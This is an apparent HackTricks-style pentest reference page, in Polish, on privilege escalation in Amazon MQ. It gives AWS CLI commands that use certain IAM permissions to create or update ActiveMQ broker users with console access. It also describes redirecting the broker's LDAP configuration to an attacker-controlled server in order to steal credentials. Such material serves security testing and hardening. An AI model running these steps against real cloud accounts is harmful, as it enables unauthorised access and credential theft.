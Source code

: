 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

Aby uzyskać więcej informacji o MQ, zobacz:

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Dzięki tym uprawnieniom możesz **utworzyć nowego użytkownika w brokerze ActimeMQ** (to nie działa w RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencjalny wpływ:** Dostęp do wrażliwych informacji podczas nawigacji po ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Dzięki tym uprawnieniom możesz **utworzyć nowego użytkownika w brokerze ActimeMQ** (to nie działa w RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potential Impact:** Uzyskanie dostępu do poufnych informacji podczas nawigacji po ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Jeśli broker używa **LDAP** do autoryzacji z **ActiveMQ**, możliwe jest **zmienienie** **konfiguracji** serwera LDAP na wskazanie **serwera kontrolowanego przez atakującego**. W ten sposób atakujący będzie w stanie **wykraść wszystkie poświadczenia przesyłane przez LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Jeśli w jakiś sposób znajdziesz oryginalne credentials używane przez ActiveMQ, możesz przeprowadzić MitM, ukraść creds, użyć ich na oryginalnym serwerze i przesłać odpowiedź (być może wystarczy po prostu ponownie użyć skradzionych credentials).

**Potencjalny wpływ:** Ukradzenie credentials ActiveMQ

{{#include ../../../../banners/hacktricks-training.md}}
